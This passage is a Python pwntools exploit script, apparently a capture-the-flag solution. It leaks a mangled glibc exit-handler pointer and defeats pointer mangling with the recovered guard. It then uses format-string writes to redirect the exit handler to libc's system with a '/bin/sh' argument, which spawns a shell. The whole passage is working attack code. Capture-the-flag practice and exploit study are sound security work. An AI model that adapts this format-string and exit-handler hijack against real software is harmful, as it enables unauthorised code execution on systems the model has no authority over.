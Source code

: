 ```python
    edit(io, payload)
    error_chal(io)
    edit(io, b"TEST", wait_prompt=False)

    io.readuntil(b"Menu")
    raw = io.readuntil(b"Menu")[: -len(b"Menu")][-8:]
    print(raw)
    exit_func = unpack(raw)
    info(f"exit_func is {hex(exit_func)}")

    exit_func_demangle = bit_rotate_right(exit_func, 64, 0x11) ^ guard
    success(f"exit_func pointer is {hex(exit_func_demangle)}")

    # call system(b'/bin/sh\x00')
    initial = current["initial"] - min(current["libc.so.6_r--p"]) + libc_base

    # STEP1: set function pointer to system
    encrypted_system = bit_rotate_left(libc.symbols["system"] ^ guard, 64, 0x11)

    info(f"writing {hex(encrypted_system)} to {hex(initial + 24)}")
    fsb_payload = fmtstr_payload(
        10,
        {initial + 24: encrypted_system},
        write_size="byte",
    )
    info(fsb_payload)

    assert len(fsb_payload) <= buf_size

    pb = PayloadBuilder()
    pb.append(fsb_payload)
    pb.append_unsize(b"P")
    payload = pb.build(buf_size)
    payload += pack(binary.symbols["text"])

    edit(io, payload)
    save(io)
    error_chal(io)
    edit(io, b"TEST", wait_prompt=False)

    success(f"set exit to system")

    # STEP2: arg = /bin/sh
    binsh = next(libc.search(b"/bin/sh\x00"))

    info(f"writing {hex(binsh)} to {hex(initial + 24 + 8)}")
    fsb_payload = fmtstr_payload(
        10,
        {initial + 24 + 8: binsh},
        write_size="byte",
    )

    assert len(fsb_payload) <= buf_size

    pb = PayloadBuilder()
    pb.append(fsb_payload)
    pb.append_unsize(b"P")
    payload = pb.build(buf_size)
    payload += pack(binary.symbols["text"])

    edit(io, payload)
    save(io)
    error_chal(io)
```